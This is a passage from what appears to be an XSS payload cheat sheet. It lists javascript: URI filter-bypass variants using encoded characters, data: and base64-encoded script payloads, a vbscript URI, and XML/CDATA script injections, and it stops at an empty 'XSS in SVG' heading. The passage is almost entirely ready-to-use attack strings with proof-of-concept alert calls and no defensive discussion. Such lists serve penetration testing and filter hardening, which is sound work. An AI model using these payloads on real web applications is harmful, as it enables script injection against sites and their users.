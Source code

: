 ```
java%0ascript:alert(1)

java%09script:alert(1)

java%0dscript:alert(1)

\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

javascript://%0Aalert(1)

javascript://anything%0D%0A%0D%0Awindow.alert(1)
```

XSS with data:

```
data:text/html,<script>alert(0)</script>

data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+

<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

XSS with vbscript (only IE)

```
vbscript:msgbox("XSS")
```

## XSS in files

**NOTA:** La sección XML CDATA se utiliza aquí para que el payload de JavaScript no se trate como marcado XML. 

Ejemplo:

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

### XSS in XML

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### XSS in SVG
